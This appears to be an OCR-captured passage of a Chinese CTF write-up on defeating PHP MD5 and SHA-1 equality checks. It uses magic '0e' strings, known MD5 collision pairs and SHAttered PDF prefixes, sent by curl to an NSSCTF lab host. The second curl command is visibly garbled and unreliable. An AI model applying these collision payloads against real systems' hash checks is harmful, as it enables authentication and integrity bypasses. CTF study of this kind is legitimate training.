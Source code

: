 *随便选取两个加密后是以`0e`开头的字符串传入即可*

```c
URL/?a=240610708&b=QLTHNDT
```

#### 10.1.2.1  强比较===，禁数组绕过：

md5:
```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

```sh
curl -X POST "http://node5.anna.nssctf.cn:27504/level_2_1s_h3re.php" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "array1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&array2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2"

response:Level___3.php
```


sha1:
```php
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1

%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```

```sh
curl -X POST "http://node5.anna.nssctf.cn:275 4/Level___3.php"   -H "C
ontent-Type: application/x-www-form-urlencoded" 25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1"

level_level_4.php
```
